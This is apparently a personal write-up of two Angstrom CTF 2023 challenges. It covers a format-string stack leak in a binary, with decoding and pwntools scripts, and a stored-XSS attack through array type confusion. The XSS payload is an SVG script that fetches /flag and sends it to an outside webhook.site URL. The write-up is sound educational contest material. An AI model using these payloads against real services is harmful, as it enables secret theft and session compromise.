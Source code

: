 ```yaml
---
title: Angstrom CTF 2023
slug: AngstromCTF-2023
author: [kane]
date: 2023-06-21
tags: [ctf,writeup]
---
```


## Queue

Category: pwn

Requires: format string bug

(wasn't solved during event, this is just my proecdure after reading a few writeups)

ghidra, decompile `main`, reverse some variables:
```c
void main(void)

{
  __gid_t __rgid;
  FILE *__stream;
  long in_FS_OFFSET;
  char input [48];
  char flag [136];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  __rgid = getegid();
  setresgid(__rgid,__rgid,__rgid);
  __stream = fopen("flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts("Error: missing flag.txt.");
                    // WARNING: Subroutine does not return
    exit(1);
  }
  fgets(flag,128,__stream);
  printf("What did you learn in class today? ");
  fgets(input,48,stdin);
  printf("Oh nice, ");
  printf(input);
  printf("sounds pretty cool!");
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    // WARNING: Subroutine does not return
    __stack_chk_fail();
  }
  return;
}
```

since there is `fgets()` followed by `printf()` it is a FSB (Format string bug)

`%n$p` gets the nth argument on the stack as a **pointer**. (Wait, why is the flag encoded in the memory address? idk, did they forget to reference the value or smth???)

so we input this:
```
What did you learn in class today? %1$p %2$p %3$p %4$p %5$p %6$p %7$p %8$p %9$p %10$p %11$p %12$p %13$p %14$p %15$p %16$p %17$p %18$p %19$p %20$p
Oh nice, 0x7ffd8d06e960 (nil) (nil) (nil) (nil) 0x3e800000002 0x55d9978532a0 0x2432252070243125 0x2520702433252070 %1sounds pretty cool!
```
We get `0x2432252070243125 0x2520702433252070` as the "output". Converting this to little endian ascii:
```python
list = [0x2432252070243125, 0x2520702433252070]

flag = []

for l in list:
    l = hex(l)
    bytelen = len(l)-2
    if bytelen%2==1:
        l = '0'+l
    for i in range(1,bytelen,2):
        f = l[-i-1]+l[-i]
        f = int(f,16)
        flag.append(chr(f))
print(''.join(flag))
```

we get `%1$p %2$p %3$p %`, which is the original input (shouldn't be surprising, the `input` also stored on the stack). 
We keep removing format strings to prevent clogging the output until we get:
```
What did you learn in class today? %13$p %14$p %15$p %16$p %17$p %18$p %19$p %20$p
Oh nice, 0x70243032252070 0x3474737b66746361 0x75715f74695f6b63 0x615f74695f657565 0x3437396461393136 0x7d32326234363863 (nil) (nil)sounds pretty cool!
```
which becomes `p %20$pactf{st4ck_it_queue_it_a619ad974c864b22}`
Flag:
```
actf{st4ck_it_queue_it_a619ad974c864b22}`
```

Better script: [source](https://www.youtube.com/watch?v=jqF4Sgi4Ars)
```python
import pwn
import time
import warnings

elf = pwn.ELF('./queue')
pwn.context.binary = elf
pwn.context.log_level = "DEBUG"

libc = elf.libc

out=""
for i in range(14,19):
	# p = elf.process()
	p = pwn.remote('challs.actf.co','31322')
	p.sendlineafter(b"today?", f"%{i}$p")
	
	p.recvuntil('Oh nice, 0x')
	
	data = p.recvuntil('sounds', drop=True)
	out+=bytes.fromhex(data.decode()).decode()[::-1]
	p.close()
print(out)
```

## Hallmark
Category: Web

Requires: xss, javascript knowledge (and some svg knowledge ig)

(wasn't solved during event, this is just my proecdure after reading a few writeups)

Looking through the source code of the server, it does not seem that we are able to directly xss it from just the `POST /flag` 
However there is the `PUT /flag` route for the challenge that allows us to potentially edit a card's content:
```js
app.put('/card', (req, res) => {
    let { id, type, svg, content } = req.body;

    if (!id || !cards[id]) {
        res.send('bad id');
        return;
    }

    cards[id].type = type == 'image/svg+xml' ? type : 'text/plain';
    cards[id].content = type === 'image/svg+xml' ? IMAGES[svg || 'heart'] : content;

    res.send('ok');

});
```
We also see that we can pass rich objects and arrays into the request since `extended: true`:
```js
app.use(bodyParser.urlencoded({ extended: true }));
```
We want the type to be `image/svg+xml` so that it renders as an svg allowing it to run the `<script></script>` in the svg, but we want to input our own svg. We simply set the `type` to be `["image/svg+xml"]` since:
```js
> ['a'] == 'a'
True
> ['a'] === 'a'
False
```
so we first create a pre-existing card, then we send the following request on https://hoppscotch.io:
Request Body:
| Parameter | Value                                                                                                                                                                                                                              |
| --------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `id`        | `[your id]`                                                                                                                                                                                                                          |
| `type[]`  | `image/svg+xml` - inputs an array into the server                                                                                                                                                                                                                  |
| `content`   | `<svg version="1.1" width="300" height="200" xmlns="http://www.w3.org/2000/svg"><script>fetch('/flag').then(r=>r.text()).then(d=>window.location="https://webhook.site/63b5be4d-5111-467d-8572-18702c2e7b00?c="+d)</script></svg>` |

its simply an svg:
```xml
<svg version="1.1" width="300" height="200" xmlns="http://www.w3.org/2000/svg"><script></script></svg>
```
with a fetch
```js
fetch('/flag').then(r=>r.text()).then(d=>window.location="https://webhook.site/blahblah?c="+d)
```
now we submit this to the admin site and in our webhook we see:
`actf{the_adm1n_has_rece1ved_y0ur_card_cefd0aac23a38d33}`
